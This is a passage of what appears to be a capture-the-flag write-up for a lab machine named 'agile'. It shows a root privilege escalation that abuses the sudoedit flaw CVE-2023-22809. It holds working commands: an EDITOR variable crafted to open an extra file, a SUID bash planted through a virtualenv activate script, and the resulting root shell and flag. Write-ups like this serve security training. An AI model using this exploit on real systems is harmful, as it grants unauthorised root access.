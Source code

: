 ```bash
edwards@agile:/home$ sudo -l
[sudo] password for edwards: 
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

Searching the internet for an exploit for *sudoedit* I found an [article](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/) dealing with `CVE-2023-22809` and explaining how to exploit this command for privilege escalation.

At this point we can export the environment variable to the */app/venv/bin/activate* file and then edit one of the two files as *dev_admin* user.

```bash
edwards@agile:/home/corum$ export EDITOR='vim -- /app/venv/bin/activate'
edwards@agile:/home/corum$ sudo -u dev_admin sudoedit /app/config_test.json
```

We simply add the SUID to */bin/bash* at the start of the program and close the editor.

<p align="center">
  <img src="Images/add_SUID.png" />
</p>

Then we execute the *bash -p* command and get the flag.

```bash
edwards@agile:/home/corum$ bash -p
edwards@agile:/home/corum# whoami
root
edwards@agile:/home/corum# cat /root/root.txt 
811f301ea659730f37c074227ca9366a
```